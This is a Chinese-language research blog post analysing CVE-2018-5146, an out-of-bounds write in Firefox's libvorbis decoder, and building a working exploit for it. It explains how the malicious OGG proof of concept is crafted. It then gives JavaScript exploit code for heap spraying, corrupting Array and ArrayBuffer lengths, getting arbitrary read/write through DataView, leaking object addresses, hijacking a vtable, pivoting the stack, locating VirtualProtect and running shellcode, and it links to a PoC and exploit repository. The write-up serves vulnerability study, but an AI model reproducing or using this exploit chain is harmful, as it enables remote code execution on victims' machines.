CVE-2018-5146
条评论这个文章是我刚开始学安全的时候第一个接触的漏洞，还是很有纪念意义的。文章之前发在了 freebuf 上，但是图不是很清晰。
这里补上所有部分，并给出 poc 以及 exp ：https://github.com/f01965/CVE-2018-5146
一． 概述
这是一个firefox的漏洞，位于 libvorbis 库中，在音频合成过程的深层次位置，想要触发它只能由具有residue 1 结构的音频文件。
Vorbis 是一种音频压缩格式，它的相关数据会被封装到一个OGG文件中； OGG 则是一种多媒体文件格式。
下图是用010 Editor 中的ogg.bt 模板读取出来的。可以看到这个ogg 文件有3个页。后面的分析，都将使用这个下图这个文件，姑且取名为 TestOgg；下面的分析过程都是建立在一个正常的ogg样本之上的，这里就是TestOgg。

（更详细的ogg vorbis格式将在下面介绍）
二． 环境搭建
系统：Windows 7 32位
工具：Visual studio 2013，一个正常的ogg vorbis 音频文件，firefox 59.0，windbg。
因为需要使用到Ogg Vorbis 音频文件，而这个文件的格式又比较陌生。那么就需要一个能够帮助我们解析这个文件的工具。去官网发现有一些打包好的工程，和一些编译好的EXE文件。

这个名叫 ogginfo .exe 的文件就可以静态解析Ogg Vorbis文件

然后下载这些工程，在本地自行配置环境，编译一下ogginfo，成功之后就可以打断点进行调试一步一步分析了。

当然，这个编译过程可能不会成功，会报错，想要解决也行，不过这里我直接写下我最后成功的操作：
官网下载 libogg-1.3.3 ，libvorbis-1.3.5 ， 然后用 github上下载的 vorbis-tools-master 。因为从官网下载的这个 tools 工程有问题，而且没有解决掉。
- 把 libogg-1.3.3 的 include / ogg 文件夹 ，和 libvorbis-1.3.5 下 include / vorbis 文件夹放到tools 的include 下面。
编译 libogg_static ，出现下面问题，如下解决一下就行。

- 编译 vorbis_static ，先把 libogg-1.3.3 的 include / ogg 文件夹放到 include 下。
成功后得到libvorbis_static.lib ，改名为libvorbis.lib即可。

- 然后打开 tools工程，把刚刚编译好的libogg_static.lib ，libvorbis.lib 的路径添加进去。

- 然后打开 tools工程，把刚刚编译好的libogg_static.lib ，libvorbis.lib 的路径添加进去。
编译一下 ogginfo，成功。

- 将 ogginfo 设置为 Startup Project，然后给它随便一个 ogg文件作为参数就可以进行调试，我使用的TestOgg只有3个ogg页。

- 将 ogginfo 设置为 Startup Project，然后给它随便一个 ogg文件作为参数就可以进行调试，我使用的TestOgg只有3个ogg页。
- 调试中比较关键的一个函数就是：oggpack_read

- 调试中比较关键的一个函数就是：oggpack_read
按F11跟进这个函数的时候就会提示你选择一个framing.c文件，选择如下这个src目录就行。

那么在解析vorbis的时候关键的函数是：vorbis_synthesis_headerin

这里会先解析pack的类型，然后按类型来一一解析其中的数据，下面构造poc的时候会详细说明这些结构。
到此静态分析的环境搭建完成了；下面的源码分析和调试都是在这个环境搭建完成的基础上进行的，但是主要目的是帮助构造 poc。
三． 漏洞函数的分析
漏洞的具体位置在 vorbis_book_decodev_add() 这个函数中，在工程中的具体位置如下：

源码如下：

问题出在高亮部分那段for 循环。这个for 循环的条件是 j < book->dim，里面的操作是把t数组赋给a 数组；而 a 数组的下标则是 i ，在上一个 for 循环可以看到 i < n 。那么，这就存在当 book->dim 的值大于 n 时，t 数组对 a 数组的赋值就会超过 a 数组的正常范围。a 数组就在此时越界。
那么，a 数组是什么， t 数组又是什么？
从图上可以看到 a 数组是作为一个参数被传递进来的，而 t 数组是则是通过计算得来的。
3.1 a 数组
那么这里尝试寻找a 数组，看看是从哪里来。
在源码中搜索漏洞函数名字，找到如下的调用，这个叫 _01inverse 的函数是漏洞函数的上一层。

那么继续寻找 _01inverse ，来到下面的位置：

红框标出的地方，就是漏洞函数的在这一层定义的结构。需要注意的是，目前要关注的数据是 a 数组，反应在这里就是float * 这个位置的数据。在这个 _01inverse 的函数里，往下看可以发现下面这一段调用：

float * 位置的数据传入的是 in[ j ] + offset ， offset 在上面计算了，那现在就是去找 in[ j ] 。 in [ ] 这个数组回头看 _01inverse 的函数头部：

in[ ] 是在第三个参数的位置。那么再回到 res1_inverse :

in[ ] 虽然在这里有赋值的过程，但不是我们要找的，这里的赋值也只是 in自己给自己的数据在赋值，没有实质上的变化，需要找到是 in[ ] 是从哪里来的。
接下来去找 res0_inverse ：

residue1_exportbundle：

这次去寻找 _residue_P 的时候，会找到多个位置。我们要找的是 _residue_P -> inverse 这样的调用。所以来到如下的位置：

pcmbundle 参数就是 in[ ]，从代码里去搜索 pcmbundle 。

pcmbundle 在这里被分配了空间，它就相当于是in[ ]； 但是这还没有完。
下面有另一处赋值：

这里的 pcmbundle[ ] 相当于 in[ ] ，所以 in[ ] = vb->pcm[ ] 。继续去搜索 vb->pcm：
vb->pcm 也会搜索到很多地方，但是下图才是正确的位置。因为根据漏洞函数的触发流程可以知道 _mapping_P 是会被调用到的一层。

vb->pcm[ ] 的大小由 vb->pcmendsizeof(vb->pcm[i]) 决定，vb->pcmend 的值由 ci->blocksizes[vb->W]，而 ci->blocksizes 的数据来自vorbis 的第一个头部 Identification header 中；
所以 a 数组的大小是可控的。 而分配内存的函数 _vorbis_block_alloc 实际上是 _ogg_malloc :

回溯a[ ] 的过程，再进一步分析，也就搞清楚出了漏洞触发的过程，整理如下：
| vorbis_synthesis |
|---|
| _mapping_P[] |
| mapping0_exportbundle |
| mapping0_inverse |
| _residue_P[] |
| residue1_exportbundle |
| res1_inverse |
| vorbis_book_decodev_add |
3.2 t 数组
t [ ] 由 book->valuelist ， entry ，book->dim 的值计算得到。
由ZDI的公告可以知道 book->dim的值来自文件中某一位置的数据 。而book->valuelist ， entry 并不清楚。这里将不回溯去寻找t [ ]，只需要明白一点就是通过修改 book->dim 可以影响到 t[ ] 的数据，且触发的漏洞的一个条件是 book->dim > 8。
四． 如何构造POC
在了解漏洞的具体情况之后，下面就该来分析ogg vorbis 的格式，构造能触发漏洞的音频文件了。去查看官方文档的说明，可以发现文件的格式不是按byte对齐的，如果不借助前面搭建的环境想要一步一步分析清楚是相当麻烦的一件事。
首先，对ogg 文件格式进行介绍。
4.1 OGG
Ogg 是以页为单位的，每一个页都有如下的固定结构：
Capture_pattern ：页标识，是ASCII字符，既：OggS ，4字节大小。
Stream_structure_version：版本ID，默认为0，1字节大小。
header_type_flag：当前页的类型 ，1字节大小。
可以是：
0x01：表示本页与前一页属于同一个逻辑比特流的同一个 Packet；若没有设置，则是一个新的 Packet。
0x02：表示本页是逻辑比特流的第一页bos；若没有设置则不是。
0x04：表示本页是逻辑比特流的最后一页eos；若没有设置则不是。
granule position：编码的相关参数，8字节大小，可以设置为全0。
serial number ： 当前页的流ID，4字节。
page sequence：页面序列号，用来判断页面有无丢失，4字节大小。
page checksum ：包含头部的页面校验和，4字节。
page_segments：segment_table中出现的个数，最大为255，1字节。
segmentLen： 记录每个segment_table长度的数组，它是一个数组，大小由segmen table的个数决定。假设只有一个 segment_table且长度为0x1E。那该位置就是1字节，且数据是 1E。
segment_table： 段表，存放数据的地方，大小在0-255字节。
需要注意一下的是：page checksum， 这个需要根据文件数据的改动而改，不然文件就是一个无法识别的错误文件。
4.2 Vorbis
根据vorbis的标准可知，它有3个标识头，头部之后的所有数据包都是音频数据包。
标识头依次是：identification header，comments header，setup header。
这3个头部都还有一个公共的头：Common header ，结构如下：
1) [packet_type] : 包类型， 8字节大小;
01 : 表示 identification header
03 : 表示 comments header
05 : 表示 setup header
2) 0x76, 0x6f, 0x72, 0x62, 0x69, 0x73: ASCII 字符，既：vorbis，6字节。
4.2.1 Identification header
官方的介绍如下：1
2
3
4
5
6
7
8
91) [vorbis_version] = read 32 bits as unsigned integer
2) [audio_channels] = read 8 bit integer as unsigned
3) [audio_sample_rate] = read 32 bits as unsigned integer
4) [bitrate_maximum] = read 32 bits as signed integer
5) [bitrate_nominal] = read 32 bits as signed integer
6) [bitrate_minimum] = read 32 bits as signed integer
7) [blocksize_0] = 2 exponent (read 4 bits as unsigned integer)
8) [blocksize_1] = 2 exponent (read 4 bits as unsigned integer)
9) [framing_flag] = read one bit
我用一个实例来对上面的参数进行说明，如下图：

这里可以看到图上有2个OggS头的标识。
图中的蓝色部分：01 76 6F …. 00 B8 01 ；就是common header + identification header 的数据。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19packet_type = 01
76 6F 72 62 69 73 = vorbis
vorbis_version = 00 00 00 00
audio_channels = 02
audio_sample_rate = 44 AC 00 00
bitrate_maximum = 00 00 00 00
bitrate_nominal = 70 11 01 00
bitrate_minimum = 00 00 00 00
blocksize[0–1] = B8
framing_flag = 01
这之后就是下一个Ogg的页，这一页可以看到 packet_type = 03 ，说明接着是 comments header。
4.2.2 Comments header
同样给出官方的说明：1
2
3
4
5
6
7
8
9
10
11
121) [vendor\_length] = read an unsigned integer of 32 bits
2) [vendor\_string] = read a UTF-8 vector as [vendor\_length] octets
3) [user\_comment\_list\_length] = read an unsigned integer of 32 bits
4) iterate [user\_comment\_list\_length] times {
[length] = read an unsigned integer of 32 bits
this iteration’s user comment = read a UTF-8 vector as [length] octets
}
5) [framing\_bit] = read a single bit as Boolean
6) if ( [framing\_bit] unset or end-of-packet ) then ERROR
7) done.
继续用上面的例子来说明：

这已经是Ogg第二个页了，这里可以看到 SegmentLen 的长度是14，说明它的大小就是 14字节。
蓝色的部分就是 common header + comments header ：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
191、packet_type = 03
2、76 6F 72 62 69 73 = vorbis
3、vendor\_length = 1D 00 00 00 表示下面的字符串长度：0x1D = 29 字节
4、vendor\_string = 00 58 69 70 … 30 36 32 32 共29字节，表示制作软件信息的字符串。
5、user\_comment\_list\_length = 02 00 00 00 表示用户注释字符串的个数为 2 ，也就是下面讲有2个字符串。
[user length ]= 2B 00 00 00 表示第一个用户注释字符串长度是 0x2B = 43。
user comment ：3D 43 6F 70 … 6A 65 63 74 这一段就是第一个用户注释了。特别的：3D 对应”=” ,这个等号用于终止字段名；这里没有字段名。
[user length ]= 14 00 00 00 表示第二个用户注释字符串长度是 0x14 = 20。
user comment ：74 69 74 6C … 74 74 65 72 第二个用户注释；同理，这里的字段名是 “title”;
6、framing\_bit = 01 1字节的Boolean类型数据； 若没有设置则会出错。
到这里 Comments header 就结束了。但是接下来数据可以看到是 05 ，说明紧接着就是 setup header 的结构。
4.2.3 Setup header
这个结构是最关键的部分，也是构造的难点所在。ZDI上所说的 type 1 residue encoding 结构就包含在这里。

这段数据比较复杂，就不能一位一位来进行说明，先给出这个部分的整体结构：
| 05 76 6F 72 62 69 73 | 05 包类型， “v o r b i s ” |
|---|---|
| codebooks 数量 | codebooks[ ] 结构 |
| time backend 数量 | time backend[ ] 结构 |
| floor backend数量 | floor backend[ ] 结构 |
| residue backend数量 | residue backend[ ] 结构 |
| map backend数量 | map backend[ ] 结构 |
| mode settings数量 | mode settings[ ] 结构 |
下面将根据我们搭建的ogginfo 项目来分析Setup header，同时会对照图中的数据一步一步说明 。
1、将断点打在 _vorbis_unpack_books，项目中解析的源代码如下图：

这里的截图由于函数过长不能完全显示出来，下面还剩下一个 mode settings的结构。
2、打好断点，开始调试。

从图中可以看到程序走到了这个位置，且前面提到的 blocksizes[ ] 已经被计算出来了，注意这个值是可以影响a[ ] 大小的。至于 blocksizes[ ] 的值可以在第一个 vorbis 头的解析函数中去查看是如何计算的，如下图：

接着回到刚刚断点的位置：

F11跟进 oggpack_read 函数：

在内存中查看对应的位置 0x00140E83 ，这里的数据就是 Setup header 除去 vorbis 头部的后的部分了；注意红框的 bits ，这个参数决定了这里的数据从0x00140E83 的位置读取多少位；图中 bits = 8 ，说明读取1个字节，那么读取的数据就是 0x00140E83 的第一个字节 ： 0x22。
（前面提到这个 oggpack_read 函数很重要的原因就是ogg文件的读取不是按字节对齐的；它存在跨字节读取数据，这就使得分析起来比较复杂，所以我才搭建这个project来帮助分析。）然后下面进行计算，具体计算可自行分析，不再过多介绍。
最终得到的：books = 34 + 1 = 35 :
最后有个加一，所以cooks的值不可能设置为0。也就意味着可以把 0x22 改写为 0x00 。
为什么要改写为 0 ？
因为我的目的是构造poc，那么这些结构的数量在保证正确的情况下，数量更小，方便对数据进行组织，出错也更容易修改，且构造出的poc 文件更小。
然后跟进 vorbis_staticbook_unpack 函数：

这里就可以看到s->dim和s->entries的值是从文件什么地方读取的，dim 值就是 book->dim，但是这个 entries 不是 t[ ] 中的 entry。
这里为了更好的说明，在windbg下调试最终构造出的poc可以看到：

此时运行到 imul edx, eax
在我构造的文件中dim = 0x48， entries = 8。
这里 eax = 48存放的就是 dim 值，edx = 0 是 entry的值。
3、 residue 结构
上面说过，漏洞文件出在type 1 residue encoding ，那我们略过中间的 time ，floor结构的构造部分，这里我略过不代表不去构造，而是限于篇幅不再细细分析。
直接来到解析 residue 结构的位置：

这里有个 residue_type 的类型判断，所以构造的时候必须是 “1”类型；后面可以跟进res0_unpack ，这里面就是解析 residue的具体结构了。

同理，下面的结构也就不再分析。
到此，对于POC如何构造就结束了。最后提示几点：
(1)、构造poc 之前，我用了一个只有3个ogg页的正常的ogg文件来作为基础进行改动。
(2)、需要改动的部分实际上全在ogg第二页。
(3)、改动数据之后要记得修改checksum的值，这个checksum值不是常规的crc32计算出来的，但是我找到了它的crc32计算的源码，和编译好的exe程序。
(4)、在构造setup_header时，codebooks ,time ,floor…等这些结构不一定是相邻的。比如：codebooks结构之后是：一部分其他数据 + t[ ] 的数据，t[ ]数据之后才是 time ,floor的结构。
(5)、在上面静态分析中，我们不可能走到漏洞函数的位置去，也就是说是无法调试漏洞函数。因为漏洞的触发是在音频合成的过程中，这是个动态的过程，上面只是静态的分析数据，也就是判断文件是不是一个正常的ogg vorbis文件而已。
我在构造的时候，修改了无数遍文件，花了相当多的时间：

尝试了大概500+的次数。虽然这样做十分的花时间，这也是一个比较笨的办法。不过好处就是清清楚楚的知道漏洞的中每个参数从文件中的什么位置去取得的，进行了怎么样的计算，改动什么位置的数据可以达到想要的目的。最终的构造出的poc也很小。

五． Exploit
Poc 有了之后，我们能用这个poc做什么呢？
再回头看看漏洞成因，由于 a[ ]本身的数据在堆上，且 a[ ] 中的数据由 t[ ] 来 ，t[ ] 数据从文件中的某一段位置获取，具体位置可以从windbg调试知道；a[ ] 又越界了，意味着a[ ]在堆上可以修改到其他内存的数据。
那么整体的思路：
① 喷洒array ，通过 a[ ]的数据溢出修改到某一个 array 的长度，从而获得一个超长且可读写的数组。
② 喷洒arraybuffer ，让超长的array 去修改 arraybuffer 的长度，数据指针等，获得一个超长的arraybuffer ；用Dataview类型的对象初始化这个arraybuffer，从而获得任意地址读写的目的。
③ 在任意地址读写的前提下，创建js对象，泄露对象的指针，构造假的对象，然后调用对象的属性，从而劫持eip ；最后就是构造rop链。
这只是 一个大概的流程，具体的操作下面介绍。
5.0 jemalloc
关于firefox堆的机制，具体请参考：
http://blogs.360.cn/blog/how-to-kill-a-firefox/
Exploiting the jemalloc Memory Allocator: Owning Firefox’s Heap
这2篇文章中对这块讲的非常容易理解。
另外一点：在firefox堆上，如果一个dword存放某个数据，那么dword+4存放的就是这个数据的类型标识符。
| dword | dword+4 |
|---|---|
| 对象 | 0xffffff8C |
| 字符串 | 0xffffff86 |
| 数值 | 0xffffff81 |
| boolean | 0xffffff83 |
5.1 交错的数组
首先，我们在堆上申请大量的 Array ，这个量到底多大合适，根据我后面的分析我定为了0x700。
注意：Array 在内存中存放的情况如下：
| Length1 | Length2 | Length3 | 数据 | 类型 | 数据 |
|---|---|---|---|---|---|
前面3个dword 是存放的数组长度，正常情况下这3个length 是相等的。根据分析可知：
Length3被修改之后，Array 的长度就被修改为Length3，即使这个3个length 互不相同。
之后，交错释放掉Array；这一步的目的是在这些大量的Array数组中，释放掉一部分，形成空的内存位置：
| Array |
|---|
| 空 |
| Array |
| 空 |
| Array |
| …… |
每个Array的长度为多少也是很关键的一部分。因为，我们释放出来的空的部分，是为了让 a[ ] 被分配到这些空的内存区间去。前面说过，a[ ]的数据是在堆上的。
当 Array 的大小与 a[ ] 的大小差不都的时候，释放掉的空的位置，就有可能让a[ ] 分配上去；那么a[ ]有多大，这就要根据自己的poc来决定了（blocksize[ ] 的数据），分析之后我定义Array的长度为 0x3e，且刚好可以修改到相邻的Array 的length3这一位置。
当然，由于内存中可能存在其他对象的分配释放，为了使出现图上的情况更加稳定一些，在交错释放之后，又可以再进行一次新的Array 的申请与交错释放，这一次的Array的大小可以不用那么大，取值0x100。
另外再提一点，在ZDI的公共上提到的是 array 与 arraybuffer交错的去喷洒堆。这里就存在一个问题，arraybuffer 的结构如何在内存中存放的？
如下：
arraybuffer长度比较大的时候，arraybuffer 结构与数据是分开在内存中存放的：
| 地址 | 0x06e5 0340 | Arraybuffer 头部结构 |
|---|---|---|
| …… | ||
| …… | ||
| 地址 | 0x1140 0b54 | Arraybuffer 数据 |
arraybuffer 长度小的时候，arraybuffer的结构才是和数据才是相邻放置在内存中：
| 地址 | 0x0712 4f50 | Arraybuffer 头部结构 | Arraybuffer**数据** |
|---|---|---|---|
| …… | Arraybuffer 头部结构 | Arraybuffer数据 |
5.2 load poc
前面布置好array之后，就是使用poc了，代码如下：1
2
3
4
5
6
7var audio = document.createElement("audio");
audio.src = "poc.ogg";
audio.play();
alert("Attach the ogg file");
我们可以通过创建标签audio的方式来加载poc。由于要触发漏洞函数，所以必须让poc加载之后就自动播放起来。
加载成功之后，可以在这里布置一个alert ，方便调试时候查看内存是否如预期把a[ ]的地址喷射成功。
5.3 寻找长长的array
当前两步成功之后，也就是说由于a[ ] 溢出的数据，我们有一个被改动了长度的数组，这个数组的长度多长，由构造的poc里面的数据决定。起初，我想把这个长度尽量的改大，于是去修改poc里面的数据，但是发现a[ ] 溢出的部分的数据是通过一个浮点数的计算得到的，比较复杂，所以最终溢出的array长度确定为 0x31203e。

那下面就是寻找这个超长的array的下标，这一步很简单，遍历数组，判断长度不等于0x3e，就是要找的array。这里要注意的是由于我们是交错释放了一半的array，寻找的时候就只能从这没有释放的一半开始。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21//look for Out of bounds array
for( var bounds_index = 1 ; bounds_index < bloack_size ; )
{
if((my_Array[bounds_index]).length != 0x3e)
{
_Length = (my_Array[bounds_index]).length;
_Index = bounds_index;
break;
}
bounds_index =bounds_index+2;
}
5.4 另一个超长的数组
现在已经有了一个长度为0x31203e长度的数组了，但是它这个长度不够用。不能满足后面布置arraybuffer ，并进行搜索内存时的需求；所以需要另一个我们可以自定义长度的超长数组。
办法就是用0x31203e 数组去修改下一个数组的length结构。
怎么修改？
搜索内存，寻找下一个array 的数据开头，每一个array的开头我都赋值成了一个特殊的数据。找到数据头之后，前面的3个dword就是length的位置，改掉即可，比如是：0xffffff81。
这就有了一个非常长的array了，可以勉强算是做到全地址读的目的了。但是通过array 读取数据不是一个合理的选择，读取的非法值在js中会被修正成NaN。
所以这一步只是用来增加array的长度，方便对后面很远位置的内存进行操作。

5.5 Arraybuffer 喷洒
上一步说到array 用来读内存不合理，但是用arraybuffer是可以的，只要将arraybuffer初始化为dataview 就可以了。那么，怎么让arraybuffer来获得全内存读的目的呢？
这就要用到前面长度为0xffffff81 这个array。
思路：
1、 喷洒大量arraybuffer，每一个arraybuffer不要太长。
2、 用0xffffff81 的array 去修改某一个arraybuffer 的结构，包括长度，数据地址的指针等。让原本正常的arraybuffer 超长，数据地址指向其他位置。
3、 寻找超长的arraybuffer ，初始化为DataView ，达到全地址读。
到此，先提出几个问题：
1、 为什么需要0xffffff81 的array？
2、 Arraybuffer喷洒多大的数量？
Answer 1：最开始已经有了一个长度为0x31203e的数组，但是我说它小了。因为我们这里喷洒arraybuffer的时候，没办法让arraybuffer 就分配在这个溢出array 的末尾，或者说与它相距不远的内存地址。而且，堆这个时候其他位置都不确定，可能在溢出array 之后就是个空白的一段地址。那寻找到这段地址的时候，就直接崩溃了；或者，另一种情况arraybuffer 被分配到很远的内存地址去，超过了 0x31203e 这个搜索的长度范围。
Answer 2：为了方便说明，暂把 0xffffff81 这个array称为 array_81。首先要明白喷洒的arraybuffer 要便于array_81寻找。当 array_81根据下标去搜寻 arraybuffer 头与数据的时候，比如从下标为 0 开始，当下标为 0x43333 这个位置的时候，刚好这里是没有被使用的空白内存区域，没有任何数据，那搜寻到这里就崩溃了；这显然不满足要求。所以，必须让arraybuffer 能喷到一个相对比较稳定的地址，比如：0x1000 0000 – 0x1400 0000 这一段地址；所以arraybuffer的数量姑且取值为0x60000 ，每一个 arraybuffer长度取值为 0x20。
如下，赋特征值 0x67890000，便于寻找。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19var my_Abuffer = new Array();
for( var Index = 0 ; Index < 0x60000; )
{
my_Abuffer[Index] = new ArrayBuffer(0x20);
var U_32array = new Uint32Array(my_Abuffer[Index]);
U_32array[0] = 0x67890000;
U_32array[1] = -127;
U_32array[2] = 0x67890002;
U_32array[3] = -127;
Index += 1;
}
另外，array_81开始搜索的下标不要从0开始，根据反复实验分析，array_81本身开始的地址有多部分的时候都分配在0x6000 0000-0xf000 0000之间，那么长度为从下标为0x400000 – 0xC00000 一段中取某个位置开始，这样就能大概率命中arraybuffer 所在的堆地址。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19var j = 0xc00000;
var buffer_base_address ;
while(true)
{
if(( temp_array2[j] == 0x67890000 ) && ( temp_array2[j+1] == 0x67890002 ))
{
temp_array2[j] = 0x10203040;
if( temp_array2[j-3] == 0x00000020 )
{
temp_array2[j-3] = 0x77777777;
break;
}
}
j++;
}
5.6 Read & Write
当通过array修改到 arraybuffer的数据的时候，要改掉arraybuffer的长度，和数据地址的指针；然后，遍历申请的arraybuffer，找到这个特殊的buffer的下标，假设下标命名为 Abuffer_Index；用 Dataview初始化后，这就可以通过 getUint32，setUint32 方法来获得任意地址读写的能力。
查看内存，第一个红框就是数据指针，第二个就是数据的长度。如上面所说，结构+数据 放在一起的，且有个buffer的长度修改为 0x7777 7777 。

找到这个0x7777 7777 的buffer，用Dataview初始化：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15/*
** View 1
*/
var Abuffer_Index = 0;
for( var k = 0 ; k < 0x60000 ; k++)
{
if( my_Abuffer[k].byteLength != 0x20 )
{
Abuffer_Index = k;
break;
}
}
var Data_view1 = new DataView(my_Abuffer[Abuffer_Index]);
5.7 JSObject
有了任意地址读写的能力，接下来就是想办法劫持eip，构造rop链。在这之前，先要构造jsobject，不然从哪里去劫持eip。
可以先参考：http://phrack.org/issues/69/14.html
开始的做法是 new function 对象，经过分析，虽然劫持到了eip，但是没办法控制esp；
之后换成了 createElementNS 对象与setAttribute方法。
具体过程：
① New createElementNS，申请了大量的对象，赋特征值为0x12003400 是为了方便寻找。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15/*
** object + aray
*/
var myArray2= new Array();
for(var i=0 ; i<0x20000;i=i+3)
{
myArray2[i] = 0x12003400;
myArray2[i+1] = "firefox"+i;
}
for(var i = 2 ; i < 0x20000 ; i=i+3 )
{
myArray2[i] = document.createElementNS("xxxx"，"image");
}
② 搜索特征值，并泄露对象的地址指针；1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16/*
** View 2
*/
var leak_address;
for(var k = 0;;k=k+4)
{
var tempDV = Data_view1.getUint32(k,true);
var tempDV2 = Data_view1.getUint32(k+43,true);
var tempDV3 = Data_view1.getUint32(k+45,true);
if( tempDV == 0x12003400 && tempDV2 == 0xffffff86 && tempDV3 == 0xffffff8c )
{
leak_address = Data_view1.getUint32(k+44,true);
break;
}
}

③ 泄露对象的指针之后，把这个指针 用Data_view1.setUint32 方法 ，放到相邻的一个arraybuffer数据地址指针的位置，并改动这个arraybuffer 的长度，再初始化为 Dataview，就做到对这个对象的任意位置读写。
5.8 eip control
当对 createElementNS 任何位置都可以做到合法的读写时候，在某一个位置放着SVGImageElement’s vftable的指针，修改这个指针为Data_view1上的某处，然后调用setAttribute 方法，eip 就会执行到被修改指针所指的位置去。

上图就是0xb22bd90本应该是SVGImageElement’s vftable的指针, 被修改为：0x1115c770 ；
然后调用 setAttribute 方法，这里会先去调用 SVGImageElement’s vftable 里面的BeforeSetAttr ，ParseAttribute 这两个函数：

那么先要获取到这两个位置的地址，放到0x1115c770 +1b0 , 0x1115c770 +1b8 的位置：

当BeforeSetAttr ，ParseAttribute 这两个函数正常执行完之后，程序会来到 call eax的位置。
eax 的数据来源，分析可以知道是从 0x1115c770 + 200 的位置取得，这里就是控制eip的位置。

5.9 leak xul.dll & change esp
Eip 被控制之后，先泄露 xul 的基地址，我使用了 xul!emptyElementsHeader+0x10 这个模块进行计算:

然后用插件 mona 在xul 里搜索 xchg eax,esp 的指令，把eip 指向这条指令，执行之后 esp 就指向了eax 之前的位置。Eax 之前是什么位置呢？
在上一步控制eip 的时候，在汇编代码中实际上是 call [eax+200h] ,eax = 0x1115c770:
所以在 0x1115c770 + 200 填上 xchg eax, esp 的地址，就做到控制esp了：

注意，esp 指向 0x1115c770 ，然后eip 执行ret ，所以在0x1115c770开始放上 kernel! VritualProct 的地址和参数就可以了。

5.10 leak kernel32 & VritualProct
有了esp ，eip ，下面就是泄露 kernel32 的地址，得到 VritualProct函数。
因为泄露了 xul 的基地址，则是可以根据PE头，寻找导入表，然后找到kernel32的地址的。
1) xul_BaseAddress = 0x5dfe0000

2) PE_offset = xul_BaseAddress + 0x3C
3) PE_address = PE_offset + xul_BaseAddress
4) Import_offset = PE_address + 0x80
5) Import_address = xul_BaseAddress + Import_offset
根据上图，得出最后导入表在内存的结构：
| Dll函数名字的地址指针 | Dll名字的地址指针 | Dll 函数的地址指针 | ||
|---|---|---|---|---|
| xxxxxxxx | 0000 | 0000 | xxxxxxxx | xxxxxxxx |
| 0x02d835b8 | 0000 | 0000 | 0x02d8b45c | 0x026342c4 |
比如：xul_BaseAddress + 0x02d8b45c = kernel32.dll
Kernel32 中 VritualProct 函数名地址：Import_address + 0x02d835b8 + 0x1ec ，即偏移为0x1ec：
那Kernel32 !VritualProct 在内存的地址 = Import_address + 0x026342c4+ 0x1ec
5.11 Shellcode
终于走到最后一步来了，前面什么都做好了。Esp 指向可控的堆区，堆被改为EXECUTE_READWRITE ，最后布置 shellcode 同样通过 Data_view1.setUnit32 进行写入就行:
0x1115c9f0 就是shellcode 开始的位置，已经有EXECUTE_READWRITE 的权限：
六． POP Cmd
由于沙盒机制的存在，所以先关闭firefox的沙盒。
方法如下：about:config
把这个 content.level 改为 0即可。
然后用xammp模拟一下http访问的情况，执行exp，弹出cmd。
七． Final
关于alert标签的问题。
执行exp的时候，执行的过程不第一定是从上到下执行。这样就会使搜索内存的代码会出现找不到相关特征值的情况，但是查看内存的时候堆喷确实也是成功喷到了。
那么，在测试阶段加上的alert标签去掉之后，就会出现exp执行不成功的问题。
Alert标签加上才成功，我有以下的猜想：alert影响了js引擎对代码的优化过程，主要是对for循环的优化。让网页的界面停在了alert标签的位置，js引擎就没有去优化后面代码，这样exp执行流程就是正确的。而去掉alert之后，由于优化问题，那么exp执行的先后顺序就不一样了。另一种想法：firefox好像能区分js代码中的dom部分与js部分，然后对这些进行异步执行，从而使执行流程出错。不过，最终的解决办法是通过setTimeout函数，对关键的部分进行延迟，这才使得整个流程从上到下能够完整的执行。